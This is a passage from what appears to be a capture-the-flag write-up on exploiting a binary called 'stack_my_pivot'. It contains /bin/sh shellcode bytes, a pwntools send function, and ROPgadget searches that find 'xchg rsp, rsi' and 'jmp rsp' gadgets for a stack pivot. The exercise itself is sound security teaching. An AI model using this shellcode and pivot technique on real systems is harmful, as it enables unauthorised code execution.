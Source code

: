 We also know that *%rip* is at offset 24/

``` python
rip_offset = 24
```

We know that the stack is executable so let's put some shellcode inside the first buffer

``` python
def send_shellcode():
    shellcode = b"\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05" #shellcraft.sh() has invalid chars

    log.info("sending shellcode")
    io.sendline(shellcode)
```

shellcode is from ["shellstorm"](http://shell-storm.org/shellcode/files/shellcode-905.php)

Now we fill the first buffer with shellcode, let's jump to it.

We need to modify %rsp% to point at the first buffer.
After the overflow the function leaves and calls main so the 4 higher byter of *%rsi* will be all zeroes so we can use a gadget in this range by overwriting the four lower bytes.

What gadgets do we have:

> ROPgadget --binary ./stack_my_pivot

There's a lot so let focus on what we want.
We want *%rsp* to point at one of the buffers since it is where we can execute code. 
Good news *%rsi* contains the address of the second buffer.

Let's see if we can use that.

> ROPgadget --binary ./stack_my_pivot | grep "rsi"

```
0x0000000000400730 : mov ebp, esp ; xchg rsp, rsi ; nop ; pop rbp ; ret
0x000000000040072f : mov rbp, rsp ; xchg rsp, rsi ; nop ; pop rbp ; ret
0x0000000000400831 : pop rsi ; pop r15 ; ret
0x000000000040072e : push rbp ; mov rbp, rsp ; xchg rsp, rsi ; nop ; pop rbp ; ret
0x0000000000400732 : xchg rsp, rsi ; nop ; pop rbp ; ret
```

Good that's a lot less. Last one seems intresting.
xchg exchanges the value of two registers, sweet we can make *%rsp* point at our second buffer and the *ret* instruction will load it inside *%rip*.
Only thing is, *pop* increases the value of *%rsp* by 8, we loose 8bytes of our already tiny buffer, well we will have to do like that.

So now we can go to *%rsp* the problem being we want to go to what's inside it, we need a *jmp rsp*, conveniently there is one.

> ROPgadget --binary ../stack_my_pivot | grep "jmp" | grep "rsp"

```
0x0000000000400738 : jmp rsp
```
